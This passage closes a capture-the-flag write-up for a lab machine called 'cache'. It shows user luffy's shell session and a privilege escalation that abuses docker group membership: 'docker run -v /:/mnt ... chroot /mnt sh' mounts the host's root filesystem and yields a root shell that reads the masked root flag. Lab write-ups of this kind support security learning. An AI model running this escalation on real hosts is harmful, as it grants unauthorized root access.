     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    110 packages can be updated.
    0 updates are security updates.
    
    
    Last login: Wed May  6 08:54:44 2020 from 10.10.14.3
    luffy@cache:~$ ls -lash
    total 32K
    4.0K drwxr-x--- 5 luffy luffy 4.0K Sep 16  2020 .
    4.0K drwxr-xr-x 4 root  root  4.0K Sep 17  2019 ..
       0 lrwxrwxrwx 1 root  root     9 May  5  2020 .bash_history -> /dev/null
    4.0K -rw-r--r-- 1 luffy luffy  220 Sep 17  2019 .bash_logout
    4.0K -rw-r--r-- 1 luffy luffy 3.8K Sep 18  2019 .bashrc
    4.0K drwx------ 2 luffy luffy 4.0K Sep 18  2019 .cache
    4.0K drwx------ 3 luffy luffy 4.0K Sep 18  2019 .gnupg
    4.0K drwxrwxr-x 3 luffy luffy 4.0K Sep 18  2019 .local
    4.0K -rw-r--r-- 1 luffy luffy  807 Sep 17  2019 .profile
    luffy@cache:~$
    

Now that we are logged in as the user luffy, we see that he is part of the docker group:
    
    
    luffy@cache:~$ groups
    luffy docker
    
    luffy@cache:~$ ip a
    
    [...]
    
    3: docker0: <****NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
        link/ether 02:42:e1:32:ed:c0 brd ff:ff:ff:ff:ff:ff
        inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
           valid_lft forever preferred_lft forever

So let's check the docker images that are available for us:
    
    
    
    luffy@cache:~$ docker image list
    REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
    ubuntu              latest              2ca708c1c9cc        21 months ago       64.2MB
    
    

So here we get the ubuntu docker image, so let's use it to mount the root directory of the box:
    
    
    luffy@cache:~$ docker run -v /:/mnt -it ubuntu chroot /mnt sh
    # cat /root/root.txt
    00XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

